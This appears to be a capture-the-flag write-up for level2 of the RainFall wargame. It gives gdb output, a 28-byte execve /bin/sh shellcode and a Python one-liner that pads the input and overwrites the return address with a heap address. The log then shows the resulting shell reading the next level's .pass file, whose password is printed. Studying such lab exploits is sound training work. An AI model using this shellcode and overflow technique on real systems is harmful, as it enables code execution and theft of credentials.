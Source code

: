 ```
0024| 0xbffff704 --> 0xbffff794 --> 0xbffff8b3 ("/home/user/level2/level2")
0028| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804853e in p ()
gdb-peda$ ni
Cannot access memory at address 0x41414145
```
Instead, we can put the code that executes [`shellcode`](http://shell-storm.org/shellcode/files/shellcode-811.php),

if shellcode is passed to the heap, and can be executed, the problem will be solved.

But, in order to allocate the shellcode to the heap, this program takes stdin, passing the shellcode, and instruction address for executing the shellcode is given, the problem may be solved.

we know the address of the heap where the shellcode will be stored, `0x804a008` => '\x08\xa0\x04\x80`, and the shellcode (there are many) is below:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80 (28 bytes)
```

** take a look at this https://wiremask.eu/tools/buffer-overflow-pattern-generator/***

python -c "print ('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*52 + '\x08\xa0\x04\x08')" ; cat -

```
level2@RainFall:~$ (python -c "print ('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*52 + '\x08\xa0\x04\x08')" ; cat -) | ./level2
1�Ph//shh/bin����°
                   ̀1�@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�A
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
